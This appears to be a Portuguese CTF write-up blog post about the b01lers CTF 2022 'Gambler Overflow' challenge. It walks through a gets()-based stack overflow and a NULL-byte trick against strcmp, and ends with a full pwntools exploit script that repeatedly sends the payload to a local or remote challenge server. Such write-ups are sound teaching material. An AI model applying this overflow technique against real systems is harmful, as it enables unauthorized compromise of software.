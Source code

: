 ```yaml
---
layout: post
title: Gambler Overflow - [b01lers CTF]
date: 2022-04-27 22:26
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Sem Categoria, stack overflow]
---
```

Existe um óbvio buffer overflow que permite sobreescrever valores. Mas ao invés de uma simples execução de shellcode ou redirecionamento de código, havia um caminho mais simples de se percorrer.

Caso queira acompanhar, o binário do challenge está [aqui](https://github.com/brerodrigues/exploit_drafts/tree/main/ctfing/b01lers_CTF_2022/gambler_overflow). E o link com as informações do evento [aqui](https://ctftime.org/event/1583).

O programa tem uma simples funcionalidade: pede uma string de 4 caracteres e a compara com uma outra string gerada aleatoriamente. Caso se consiga acertar a string aleatória, ganha-se 10 moedas, caso n, perde-se 10 moedas. No ínicio da execução é avisado de que existe um belo prêmio quando acumularmos 1000 moedas. A primeira coisa que chama a atenção é que, quando inserimos mais de 8 caracteres, é possível sobreescrever o valor da **Correct Word**:

```
Welcome to the casino! A great prize awaits you when you hit 1000 coins ;)
Your current balance: 100
Guess me a string of length 4 with lowercase letters: aaaa
Your guess: aaaa
Correct word: pmbp
Bummer, you lost. -10 coins.
Your current balance: 90
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
Your current balance: 80
Guess me a string of length 4 with lowercase letters: 
```

Essa tese é confirmada ao se analisar o pseudo código gerado pelo Ghidra da função **casino**, responsável por maior parte da lógica do programa. Renomeei as variáveis que achei interessantes e deixei o resto do jeito que o Ghidra quis:

<script src="https://gist.github.com/brerodrigues/dfb4567a3b433ad61586db8da2525e6f.js"></script>

Pode se observar na linha 23 que o programa utiliza a função **gets** para obter o input do usuário, como **gets** não se importa com o tamanho do input, possibilita que seja armazenado em **user_input** um valor maior que os 8 chars previamente reservados, nos deixando sobreescrever os valores armazenados abaixo de **user_input** na stack. E logo abaixo de **user_input** na stack está, convenientemente, **correct_guess** com o valor pseudoaleatório gerado no looping iniciado na linha **36**.

Há um pequeno pulo do gato para ser bem sucedido ao explorar esse overflow. De que adianta poder trocar o valor de **correct_guess** se na hora da comparação os valores vão ser diferentes? Afinal, é necesário inserir um certo número de caracteres antes de se chegar na área de memória onde está **correct_guess** e na hora da comparação os dois valores não vão bater:

```
Guess me a string of length 4 with lowercase letters: AAAAAAAABBBBBBBB
Your guess: AAAAAAAABBBBBBBB
Correct word: BBBBBBBB
Bummer, you lost. -10 coins.
```

Todas as proteções populares estão habilitadas no binário (NX, PIE, Canaries), o que dificulta alguns tipos de ataque. Na linha **60** existe uma verificação que checka se o valor de **balance** é maior que **1000**. Caso seja, chama uma função que imprime a flag na tela. Esse é o grande prêmio anunciado no ínicio do programa. Já que controlamos o valor de **correct_guess**, qual seria a melhor forma de explorar esse comportamento?

Aqui mora o momento que o gato dá seu pequeno pulo: na linha **47** é chamada a função **strcmp** para comparar **user_input** e **correct_guess**. **strcmp** foi feita para comparar duas strings e considera uma string uma sequência de caracteres finalizada por um NULL byte. Consegue entender onde quero chegar?

**gets**, diferente de **strcmp**, não se importa em consumir NULL bytes, ela vai lendo até encontrar um EOF (end of file, pode ser enviado com CTRL+D no terminal) ou um new line (um simples Enter). Então é possível inserir via **gets** uma string que é formada por: 7 caracteres + NULL byte + 7 caracteres. Os primeiros 7 caracteres serão utilizados em **strcmp** como nosso input (ela vai desconsiderar o NULL byte e tudo que vier depois), e o segundo conjunto será o novo valor de **correct_guess**.

No meu exploit criei a string venenosa **overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)** e criei um loop com while que pega o output do programa, verifica se esse output tem o valor **"FLAG** e, caso não tenha, continua enviando a string venenosa. Isso é necessário porque a cada interação que enviamos a string ganhamos 10 moedas e a flag só será impressa na tela quando obtivermos 1000 moedas. Se deseja assistir a todos os momentos que essas moedas são ganhas basta descomentar a linha **#print(output)** dentro do loop.

```python
#!/usr/bin/env python

from pwn import *

get_flag = False
chall_name = 'gambler_overflow'

def run_with_gdb(p):
    gdb.attach(p,'''
    b *main
    b *casino+280''')

def run_exploit(p, debug):
    if debug:
        run_with_gdb(p)
        

    overflow = (b'A' * 7) + b'\x00' + (b'A' * 7)

    while (True):
        output = p.recv(timeout=2).decode()
        #print(output)
        if "FLAG" in output:
            print(output)
        else:
            p.sendline(overflow)
            
    p.close()

if get_flag:
    p = remote('178.62.32.210', '30138')
    run_exploit(p, False)
else:
    process_full_path = './' + chall_name
    p = process(process_full_path)
    run_exploit(p, False)
```

ao rodar, rapidamente chegamos ao resultado que nessa visualização imprimiu meu arquivo flag.txt local criado para fins de teste:

```
[+] Starting local process './gambler_overflow': pid 7322
Your guess: AAAAAAA
Correct word: AAAAAAA
You won (wow)! +10 coins.
FLAG{isso_eh_a_flag_txt}

See you next time!
```

